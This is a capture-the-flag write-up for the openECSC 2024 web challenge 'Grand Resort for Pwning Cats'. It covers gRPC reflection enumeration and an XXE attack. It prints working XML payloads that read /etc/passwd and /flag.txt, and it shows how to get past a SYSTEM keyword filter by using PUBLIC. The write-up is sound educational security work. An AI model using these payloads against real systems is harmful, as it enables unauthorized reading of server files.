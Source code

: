 ```yaml
---
title: "openECSC 2024 [Round 3]: Grand Resort for Pwning Cats"
description: "openECSC 2024 Round 3 Web Writeup"
date: 2024-05-19
tags: ['grpc','xxe']
image: './openecsc.png'
authors: ['p4rr4']
---
```


## Challenge description

> Welcome to the Grand Resort for Pwning Cats. Are you ready to become the cutest pwner kitten at our establishment?

> The flag is stored in /flag.txt

> Site: http://grandresort.challs.open.ecsc2024.it

## Site overview

To begin with, I will interact with the website just to get the gist of its functionality.

![](./app.png)

We have a simple website with some rooms. When we click in a room, we have the option to book it:

![](./alert.png)

However, this seems to just pop an alert with a default message on our browser and take us to the home page again. Nothing of interest, let's look at the source code.

## Source code

For this challenge, we are provided with the following source code files:

![](./tree.png)

### Frontend

Despite the big amount of files this folder contains, there is pretty much nothing interesting. We can see that the website uses Svelte and has an ID for each room, but we cannot interact directly with anything.

### Backend

Here is where the real challenge relies. The file provided (`server.go`) has the following code:

```go
package main

import (
	"os"
	"log"
	"net"

	"google.golang.org/grpc"
	"google.golang.org/grpc/reflection"

	pb "grand-resort/reception/service"
)

type receptionServer struct {
	pb.UnimplementedReceptionServer
}

// Endpoints' definition are in endpoints.go, which is not provided... eheheh not so easy now, uh?

func main() {
	flag := os.Getenv("FLAG")
	err := os.WriteFile("/flag.txt", []byte(flag), 0644)
	if err != nil {
		panic(err)
	}

	lis, err := net.Listen("tcp", "0.0.0.0:38010")
	if err != nil {
		log.Fatalf("failed to listen: %v", err)
	}

	grpcServer := grpc.NewServer()
	pb.RegisterReceptionServer(grpcServer, &receptionServer{})
	reflection.Register(grpcServer)
	grpcServer.Serve(lis)
}
```

The remote server is running a [gRPC](https://grpc.io/) server on port `38010`! I had never delt with gRPC (neither with Go), so I had to do a little bit of research on how to interact with it. We can also notice a comment telling us that we are missing the endpoints' definitions, so we do not exactly know what the server does.

## gRPC server

I found [this](https://github.com/grpc-ecosystem/awesome-grpc) cool website with a bunch of tools and resources for gRPC. Among these, I decided to go with [gRPCurl](https://github.com/fullstorydev/grpcurl) to try and make some requests to the remote server.

After analysing the code more in depth, specially the gRPC functions, I noticed something interesting about `reflection`. The server seems to have the [Reflection](https://grpc.io/docs/guides/reflection/) protocol enabled, which gives us the possibility to list the server's services! Therefore, we can list all the endpoints available, despite not having their definitions.

### Hidden endpoints

Let's start working with gRPCurl. Firstly, we can list the server's services:

![](./services.png)

**NOTE:** the `-plaintext` flag is necessary to avoid a TLS error.

We can see `GrandResort.Reception`, corresponding to the challenge, and the other two Reflection services. gRPCurl provides us wiht an option to describe the services:

![](./desc.png)

There are two interesting endpoints, one to create a room and the other one to create a **request model** for creating a room. As to create a room we require a request model, let's go with the second one:

![](./model.png)

We receive a JSON containing the following XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<room>
    <name>RoomName</name>
    <price>$100.0</price>
    <description>RoomDescription</description>
    <size>30 m2</size>
</room>
```

And we can then send it in order to create a room:

![](./create.png)



### XXE

Since we are dealing with XML files and our request does not seem to go in a browser or affect the web application, I thought about trying XXE injection to read local files via the room name (which is shown in the response). My XML payload was the following:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<room>
<name>&file;</name>
<price>$100.0</price>
<description>RoomDescription</description>
<size>30 m2</size>
</room>
```

However, we get this response:

```json
{
  "RoomCreationResponse": "Error: you can't use the S-word!"
}
```

It seems that we cannot use the `SYSTEM` keyword (not case sensitive). There are several ways to bypass this but one of them is using `PUBLIC` instead:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY file PUBLIC "file" "file:///etc/passwd"> ]>
<room>
<name>&file;</name>
<price>$100.0</price>
<description>RoomDescription</description>
<size>30 m2</size>
</room>
```

![](./passwd.png)

## Flag

Finally, we can use the above payload to read `/flag.txt`:

![](./flag.png)

Flag: `openECSC{UWu_r3fl3ktIng_K17T3n5_uWU_fe58e458}`
